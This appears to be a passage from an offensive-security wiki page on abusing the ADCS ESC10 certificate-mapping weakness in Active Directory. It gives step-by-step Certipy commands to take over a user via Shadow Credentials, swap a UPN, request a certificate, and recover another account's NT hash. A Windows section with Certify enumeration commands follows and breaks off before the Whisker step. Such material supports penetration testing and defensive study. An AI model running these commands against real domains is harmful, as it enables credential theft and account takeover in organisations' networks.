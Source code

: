 ::: tabs

=== Unix-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, user1 has `GenericWrite` against user2 and want to compromise user3.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):
